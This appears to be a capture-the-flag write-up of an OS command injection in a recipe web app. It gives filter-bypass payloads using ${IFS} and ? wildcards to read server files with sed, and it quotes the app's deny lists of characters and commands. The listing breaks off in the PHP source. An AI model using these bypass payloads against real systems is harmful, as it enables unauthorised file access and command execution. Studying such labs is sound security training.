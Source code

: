 <img width="494" height="875" alt="image" src="https://github.com/user-attachments/assets/b4f9b75b-99a4-4a3c-ae23-ece5d517767b" />

# Challenge 

The app exposes an OS command injection. User input from ingredient is interpolated into a bash -c string and executed.

<img width="1898" height="987" alt="image" src="https://github.com/user-attachments/assets/aa2d90ab-166f-45bd-8723-183e6078471b" />

## Solution

<img width="534" height="208" alt="image" src="https://github.com/user-attachments/assets/fa81dade-eef6-4b83-92e8-73f244e17bfe" />

1) Prove command injection

   Space is filtered, so use ${IFS} (shell field separator) instead of spaces ```choco;ls${IFS}-alh```

2) Map filters

   Blocked: ``space, /, ., *, cat, echo, *``

   Allowed: ``;, ${…} expansions, ? wildcard, sed/awk/head/tail.``

3) Read local files (dot is blocked → use ?)
   Use a non-cat reader and wildcard to dodge the dot. Spaces are filtered, so swap them for ${IFS}. Commands (typed in the input box):
   ```
   choco;sed${IFS}-n${IFS}1,200p${IFS}quality?sh

   choco;sed${IFS}-n${IFS}1,200p${IFS}index?php
   ```
   
   <img width="814" height="329" alt="image" src="https://github.com/user-attachments/assets/e7c12707-b794-4bee-803f-e93d7fba94f0" />

    ```quality.sh
    #!/bin/sh
    ingredient="$1"
    [ -z "$ingredient" ] && { echo "No ingredient!"; exit 1; }
    
    purity=$(awk -v s="$RANDOM" 'BEGIN{srand(s);printf "%.1f",80+20*rand()}')
    echo "Ingredient: $ingredient"
    echo "Purity: $purity%"
    ```

    <img width="921" height="804" alt="image" src="https://github.com/user-attachments/assets/9ddfd323-6e7b-4007-8c05-05ed3b9081e2" />

    ```index.php
    <?= htmlspecialchars($ingredient) ?>
    
    $denyListCharacters = ["'", '<', '(', ')', '[', ']', '\\', '"', '*', '/', ' '];
    $denyListCommands   = ['rm','mv','cp','cat','echo','touch','chmod','chown','kill','ps','top','find'];
    
   function loadSecretRecipe() {
    file_get_contents('/flag.txt');
    }
    